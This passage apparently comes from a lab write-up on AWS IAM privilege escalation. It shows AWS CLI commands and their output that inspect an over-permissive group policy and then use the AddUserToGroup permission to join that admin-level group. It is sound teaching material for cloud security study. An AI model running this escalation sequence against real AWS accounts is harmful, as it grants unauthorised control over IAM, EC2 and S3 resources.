 We can then list the policies attached to the group.

```
❯ aws iam list-attached-group-policies --group privesc-sre-group
{
    "AttachedPolicies": [
        {
            "PolicyName": "privesc-sre-admin-policy",
            "PolicyArn": "arn:aws:iam::9[REDACTED]2:policy/privesc-sre-admin-policy"
        }
    ]
}
```

Observe the`DefaultVersionId`, we can retrive the group policy and check what permission it assigns to the group using the versionId of the policy.\
As observed, it allows all actions of IAM, EC2 and S3 service on all resources to the users that belongs to the group `privesc-sre-admin-policy`. This is a higher level privilege than what we currently have, which is `AddUserToGroup`.

```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc-sre-admin-policy --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:*",
                        "ec2:*",
                        "s3:*"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2024-01-21T19:26:55+00:00"
    }
}
```

So, we will add ourself to this group with priviledged permissions. And that's how we are able to escalate our privileges by exploiting `AddUserToGroup` permission. 

```
❯ aws iam add-user-to-group --group-name privesc-sre-group --user-name privesc13-AddUserToGroup-user --profile privesc13

❯ aws iam list-groups-for-user --user-name privesc13-AddUserToGroup-user
{
    "Groups": [
        {
            "Path": "/",
            "GroupName": "privesc-sre-group",
            "GroupId": "AGPA6CT7N4R3IRZOB5AYV",
            "Arn": "arn:aws:iam::9[REDACTED]2:group/privesc-sre-group",
            "CreateDate": "2024-01-21T19:26:52+00:00"
        }
    ]
}
```